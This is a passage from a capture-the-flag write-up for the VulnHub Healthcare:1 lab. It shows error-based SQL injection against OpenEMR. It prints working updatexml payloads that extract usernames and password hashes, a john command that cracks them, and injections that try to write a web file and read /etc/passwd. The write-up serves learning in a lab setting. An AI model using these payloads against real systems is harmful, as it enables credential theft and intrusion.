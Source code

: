 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821183203.png)

- MySQL version: **5.1.55**

**Exfiltrate table `users`'s column `username` and `password` data (From the original Python exploit script):**
```sql
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 0,1), 1,31)),null)-- -
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 0,1), 32,31)),null)-- -

' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 1,1), 1,31)),null)-- -
' and updatexml(null,concat(0x0a,substr((SELECT concat(username,':',password) FROM users LIMIT 1,1), 32,31)),null)-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821184131.png)

**Exfiltrated:**
```
admin:{Redacted}
medical:{Redacted}
```

**Nice! Let's crack them all via `john`!**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:44:00(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt password_hashes.txt 
[...]
{Redacted}          (medical)     
{Redacted}           (admin)     
[...]
```

But before we login as those users, I wanna try if we can write/read arbitrary files via SQL injection:

**Write file:**
```sql
' and updatexml(null,concat(0x0a,(SELECT "test" INTO OUTFILE "/var/www/html/test.txt")),null)-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821185014.png)

**Read file:**
```sql
' and updatexml(null,concat(0x0a,(SELECT LOAD_FILE("/etc/passwd"))),null)-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821185146.png)

Nope. We can't.

**Well then, let's try to login as user `admin` on OpenEMR:**
